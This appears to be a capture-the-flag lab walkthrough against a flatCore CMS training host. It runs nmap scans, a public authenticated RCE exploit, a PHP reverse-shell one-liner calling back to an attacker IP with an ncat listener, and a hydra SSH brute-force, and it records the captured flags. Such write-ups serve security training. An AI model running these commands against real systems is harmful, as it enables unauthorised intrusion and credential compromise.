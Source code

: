 # Domain Info
*domain*: target1.ine.local
*IP*: 192.98.23.3

# Enumeration
-> on web credentials provided `admin:password1` .
-> usefull wordlists
```shell
- /usr/share/nmap/nselib/data/wp-plugins.lst
- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

-> *CMS* : flatCore CMS
## Port Scan
```shell
sudo nmap --min-rate 1000 -p- target1.ine.local
	PORT   STATE SERVICE
	22/tcp open  ssh
	80/tcp open  http
	MAC Address: 02:42:C0:62:17:03 (Unknown)
```
## Service Scan
```shell
sudo nmap -sV -A -T4 -oX target1.xml target1.ine.local

	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   3072 21:24:4c:9e:7b:6b:7f:b9:ff:35:fd:b7:72:e9:b3:c2 (RSA)
	|   256 32:b1:fc:9d:50:e4:3c:28:ee:18:16:2f:73:91:0a:13 (ECDSA)
	|_  256 e0:51:b7:4f:d0:b1:a3:35:88:5b:51:4e:b9:53:59:1a (ED25519)
	
	80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
	| http-cookie-flags: 
	|   /: 
	|     PHPSESSID: 
	|_      httponly flag not set
	| http-robots.txt: 4 disallowed entries 
	|_/acp/ /core/ /lib/ /modules/
	|_http-generator: flatCore
	|_http-server-header: Apache/2.4.41 (Ubuntu)
	|_http-title: Homepage

	OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Exploitation
## searchsploit
``` shell
searchsploit flatCore

	FlatCore CMS 2.0.7 - Remote Code Execution (RCE)  (Authenticated) |php/webapps/50262.py
	FlatCore CMS 2.1.1 - Stored Cross-Site Scripting (XSS) | php/webapps/51068.txt

-> /usr/share/exploitdb/exploits/php/webapps/50262.py
```

# Exploiting Poc
```shell
cp /usr/share/exploitdb/exploits/php/webapps/50262.py exploit.py
python3 exploit.py http://target1.ine.local admin password1  

# found flag1
cat /flag1.txt
FLAG1{2c9e54968a88463ab7f3798b237fbe66}
# shell is not stable so making stable
# payload
php -r '$sock=fsockopen("192.98.23.2",4444);system("/bin/sh <&3 >&3 2>&3");'

# listner
ncat -nvlp 4444

# making stable
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm 
#press ctrl+z
stty raw -echo && fg # more stable

```

### trying bruteforcing on found user
```shell

- hydra -l iamaweakuser -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt -t 35 ssh://target1.ine.local
	
	[22][ssh] host: target1.ine.local   login: iamaweakuser   password: angel
# found creds....
```

-> Just Learned new thing that sometime user enum will not work and 
for bruteforcing services with found user work.
	-> user found in shell > bruteforce ssh with that

```shell
ssh iamaweakuser@target1.ine.local
cat flag2.txt
FLAG2{40cc2dfcffe942978704242cf646fd5c}
```

